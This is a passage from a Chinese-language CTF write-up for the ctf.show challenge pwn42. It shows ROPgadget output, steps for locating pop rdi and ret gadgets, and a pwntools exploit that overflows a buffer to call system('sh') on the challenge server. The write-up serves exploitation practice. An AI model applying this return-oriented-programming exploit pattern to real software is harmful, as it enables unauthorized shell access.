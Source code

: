 ```C
0x0000000000400542 : ret 0x201a
0x00000000004005f8 : sal byte ptr [rbp + rcx + 0x5d], 0xbf ; push rax ; and byte ptr [rax], ah ; jmp rax
0x000000000040063a : sal byte ptr [rbx + rcx + 0x5d], 0xbf ; push rax ; and byte ptr [rax], ah ; jmp rax
0x0000000000400535 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
0x0000000000400665 : sbb dword ptr [rax], esp ; add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400c99 : sub eax, 0x85e5202d ; movsd dword ptr [rdi], dword ptr [rsi] ; jmp 0x2060b53b
0x0000000000400c9a : sub eax, 0xa585e520 ; jmp 0x2060b53b
0x0000000000400855 : sub esp, 8 ; add rsp, 8 ; ret
0x0000000000400854 : sub rsp, 8 ; add rsp, 8 ; ret
0x000000000040084a : test byte ptr [rax], al ; add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000400534 : test eax, eax ; je 0x40053a ; call rax
0x0000000000400533 : test rax, rax ; je 0x40053a ; call rax
```

0x0000000000400843 : pop rdi ; ret

这里获取到rdi寄存器位置

（rdi寄存器的位置可以换用另外一个指令来获取位置)

```C
ROPgadget --binary pwn42 --only "pop|ret"|grep rdi
```

能更高效的筛出pop_rdi的位置

0x000000000040053e : ret

这里获取到ret指令位置

至此，全部要素集齐

payload格式为：b'a'*(0xA+8)+p64(pop_rdi)+p64(sh)+p64(ret)+p64(system)

exp:

```python
from pwn import *
u=remote("pwn.challenge.ctf.show",28237)
pop_rdi=0x0000000000400843
sh=0x0400872
ret=0x000000000040053e
system=0x0400560
payload=b'a'*(0xA+8)+p64(pop_rdi)+p64(sh)+p64(ret)+p64(system)
u.sendline(payload)
u.interactive()
```



## pwn43

32位
